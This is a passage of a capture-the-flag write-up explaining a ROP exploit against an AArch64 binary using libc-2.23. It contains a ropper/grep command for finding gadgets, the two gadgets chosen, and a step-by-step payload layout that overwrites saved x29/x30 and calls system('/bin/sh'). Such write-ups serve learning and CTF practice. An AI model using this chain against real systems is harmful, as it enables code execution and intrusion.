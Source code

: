 > Found with:  
>  
>```bash  
># ropper --nocolor --file libc-2.23.so | grep ': ldr x0, \[x29, #0x.[0-9a-f]*\]; ldp x29, x30, \[sp\], #0x[0-9a-f]*; ret; $'  
>```

The above gadgets will load `x0` from `x29` offset by `#0x10`, `#0x18`,
etc..., then load your `x29`, `x30` from the stack before branching to `x30`.
The stack pointer will also move just before the `ret`, so expect your ROP
chain to not look so linear.

_But if the preserved `x29`, `x30` are NOT down stack, how do I over write
them?_

You don't, you're attacking the calling function's `x29`, `x30`.  IOW, `main`
calls `vulnerable` and `vulnerable` returns to `main` exactly as intended, it
is the function calling `main` preserved `x29`, `x30` we can overwrite.

#### Finding Gadgets

From the leak and the provided libc we have the addresses of `system` and the
string `/bin/sh\0`.  All we need to do is put the address of `/bin/sh\0` in
`x0` and call `system`.

Well easier said than done.  There's no usable `ldr x0, [sp]` gadget and
setting `x29` without a stack address leak was also a challenge, so I settled
on these two (there's actually a gadget in `arm` that will move `sp` to `x29`,
but I had all of libc, surely that is better, right? :-):

The first will load `x19`, `x20` from the stack offset by `0x10`:

```assembly  
ldp x19, x20, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;  
```

The second will move `x19` to `x0`:

```assembly  
mov x0, x19; ldr x19, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;  
```

Finding them require crafting some `grep` strings to look for `ldr` and `ldp`
loading from the stack, and a matching `mov` to get into `x0`.

It was not terribly difficult or time consuming, most of my time was spent
getting my tooling setup and learning how Aarch64 works.

#### Exploit Walkthrough

> This is going to be painfully long.  Instead of walking through how I
> developed this (too long), I'll just walkthrough the exploit, step-by-step.

Payload:

```  
128 bytes of garbage to get to end of stack  
BBBBBBBB as main x29  
8 byte first gadget address (main x30)  
(32-16) bytes of C, required for the main ldp x29, x30, [sp], #32  
CCCCCCCC as first gadget x29  
8 byte second gadget address (x30)  
8 byte pointer to /bin/sh (sp is 16 bytes above us pointing to our x29
CCCCCCCC)  
(0x20-16-8, the 16 is for x29/x30, and the 8 for /bin/sh) bytes of garbage
required for the ldp x29, x30, [sp], #0x20  
DDDDDDDD as the second gadget x29  
8 bytes for address of system call (x30)  
```
